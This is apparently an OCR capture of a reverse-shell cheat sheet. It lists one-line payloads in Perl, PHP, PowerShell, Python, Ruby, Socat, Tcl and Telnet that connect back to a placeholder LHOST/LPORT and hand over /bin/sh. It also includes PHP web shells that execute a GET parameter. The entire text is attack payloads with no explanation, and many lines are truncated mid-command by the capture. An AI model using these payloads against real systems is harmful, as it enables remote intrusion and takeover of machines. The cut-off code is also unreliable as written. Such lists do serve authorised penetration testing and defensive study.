 perl -e 'use Socket;$i="LHOST";$p=LPORT;socket(S,PF_INET,SOCK_STREAM,getprot

perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"LPORT:LH

1 # Windows
2 perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"LPORT:LHOST");STDIN->fdopen

PHP

1 <?php system($_GET['cmd']);?>
2
3 <?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

php -r '$sock=fsockopen("LHOST",LPORT);exec("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("LHOST",LPORT);shell_exec("/bin/sh -i <&3 >&3 2>&3")

php -r '$sock=fsockopen("LHOST",LPORT);`/bin/sh -i <&3 >&3 2>&3`;'

php -r '$sock=fsockopen("LHOST",LPORT);system("/bin/sh -i <&3 >&3 2>&3");'

php -r '$sock=fsockopen("LHOST",LPORT);popen("/bin/sh -i <&3 >&3 2>&3", "r")

1 // pentestmonkey one-liner ^_^
2 <?php set_time_limit (0); $VERSION = "1.0"; $ip = "LHOST"; $port = LPORT; $

Powershell

$client = New-Object System.Net.Sockets.TCPClient('LHOST',LPORT); $stream =

Python

1 # TCP
2 python -c "import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_

1 # STCP
2 python -c "import os,pty,socket,sctp;s=sctp.sctpsocket_tcp(socket.AF_INET)

1 # UDP
2 python -c "import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_

Ruby

ruby -rsocket -e 'f=TCPSocket.open("LHOST",LPORT).to_i;exec sprintf("/bin/sh

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("LHOST","LPORT");while(cmd=c.

1 # Windows
2 ruby -rsocket -e 'c=TCPSocket.new("LHOST","LPORT");while(cmd=c.gets);IO.pop

Socat

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:LHOST:LPORT

TCLsh

echo 'set s [socket LHOST LPORT];while 42 { puts -nonewline $s "shell>";flus

Telnet

rm -f /tmp/p; mknod /tmp/p p && telnet LHOST LPORT 0/tmp/p

telnet LHOST LPORT | /bin/bash | telnet LHOST LPORT
